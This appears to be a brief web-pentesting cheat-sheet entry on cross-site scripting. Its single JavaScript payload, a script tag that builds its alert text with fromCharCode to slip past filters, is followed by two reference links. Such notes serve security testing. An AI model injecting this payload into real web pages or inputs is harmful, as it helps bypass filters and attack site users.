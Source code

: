 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - client-side-attacks
  - cross-site-scripting
---
```

# JavaScript

```
<script>alert(String.fromCharCode(120, 115, 115))</script>
```

---
## References

https://gist.github.com/sseffa/11031135

https://html5sec.org/